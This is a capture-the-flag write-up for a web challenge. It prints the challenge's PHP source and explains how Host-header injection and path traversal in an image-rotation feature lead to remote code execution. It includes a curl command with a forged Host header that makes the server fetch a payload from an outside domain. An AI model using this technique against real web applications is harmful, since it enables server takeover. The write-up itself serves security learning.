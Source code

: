 # Web 02

This was an interesting challenge. We are only provided with a link to a website and no source code.

```
Challenge is available at http://52.78.36.66:81/
```

The webapp is essentially a post service with image uploads. You can upload a "featured image" and create a post referencing that image.

![img1](./img1.png)

![img2](./img2.png)

Visiting the post.php directly revealed the source code 

```php
<?php
require_once('header.php');
require_once('db.php');

$post = [];

function rotate_feature_img($post_id, $degrees) {
    $post = get_post($post_id);
    $src_file = $post['feature_img'];
    $ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));
    
    $src_file = "uploads/" . $src_file;
    if ( !file_exists( $src_file ) ) {
        $base_url = "http://" . $_SERVER['HTTP_HOST'];
        $src = $base_url. "/" . $src_file;
    } else {
        $src = $src_file;
    }
    try {
        $img = new Imagick($src);
        $img->rotateImage('white', $degrees);
    } catch (Exception $e) {
        die('fail to rotate image');
    }
    @mkdir(dirname($src_file));
    @$img->writeImage($src_file);
}

function get_title() {
    global $post;
    echo $post['title'];
}

function get_body() {
    global $post;
    echo $post['body'];
}

function get_img_src() {
    global $post;
    $base_url = "http://" . $_SERVER['HTTP_HOST'];
    echo $base_url."/uploads/".$post['feature_img'];
}

function check_theme($theme) {
    if(!in_array($theme, scandir('./themes'))) {
        die("Invalid theme!");
    }
}

if (isset($_GET['post_id'])) {
    require_once('post_header.php');
    
    $post_id = $_GET['post_id'];
    global $post;
    $post = get_post($post_id);
    if (isset($_GET['theme'])) {
        $theme = $_GET['theme'];
    } else {
        $theme = 'theme1.php';
    }
    check_theme($theme);
    include('themes/'.$theme);
    echo("<button class='btn btn-primary' id='edit-btn'>Edit image</button>
<form action='post.php' method='post' width='50%'>
    <div class='form-group' id='edit-div'>
    <label for='exampleInputEmail1'>Degree</label>
    <input type='text' class='form-control' id='exampleInputEmail1' placeholder='90' name='degree'>
    <input type='hidden' class='form-control' id='exampleInputEmail2' value='$post_id' name='post_id'>
    <button type='submit' class='btn btn-primary'>Rotate</button>
  </div>");
    require_once('post_footer.php');
}
else if (isset($_POST['post_id']) && isset($_POST['degree'])) {
    $post_id = $_POST['post_id'];
    rotate_feature_img($post_id, (int) $_POST['degree']);
    header("Location: /post.php?post_id=$post_id&theme=theme1.php");
} else {
    show_source('post.php');
}

require_once('footer.php');
?>
```

The interesting functionality here is we can rotate an image. The bug lies in the function:

```php
function rotate_feature_img($post_id, $degrees) {
    $post = get_post($post_id);
    $src_file = $post['feature_img'];
    $ext = strtolower(pathinfo($src_file, PATHINFO_EXTENSION));
    
    $src_file = "uploads/" . $src_file;
    if ( !file_exists( $src_file ) ) {
        $base_url = "http://" . $_SERVER['HTTP_HOST'];
        $src = $base_url. "/" . $src_file;
    } else {
        $src = $src_file;
    }
    try {
        $img = new Imagick($src);
        $img->rotateImage('white', $degrees);
    } catch (Exception $e) {
        die('fail to rotate image');
    }
    @mkdir(dirname($src_file));
    @$img->writeImage($src_file);
}
```

Basically it checks if the image we are rotating exists on the server, otherwise it gets it from a remote server based on the HTTP_HOST, which we can control.

It then writes it to the the "$src_file" location and since we control that based on the `feature_img`, we can traverse it and make it write a file in the themes folder.

The file written in the themes folder can be later loaded:

```php
    if (isset($_GET['theme'])) {
        $theme = $_GET['theme'];
    } else {
        $theme = 'theme1.php';
    }
    check_theme($theme);
    include('themes/'.$theme);
``` 

The image is rotated before getting saved, so I just used a [svg](./sol) with a text tag to preserve the php code after rotation.

The exploit was basically:

- Create an post with the "Featured Image" set to `../themes/jazzyhack`
- Rotate the image with a custom Host header and have the payload hosted at `/themes/jazzyhack` on the Host header domain you used.
```
curl 'http://52.78.36.66:81/post.php' -H 'Host: domain.com' --data 'degree=90&post_id=ZkXXHLCW'
``` 
(with the payload hosted at domain.com/themes/jazzyhack)


Now just load the theme jazzyhack and you have arbitrary php code execution.

![img3](./img3.png)

\- Jazzy
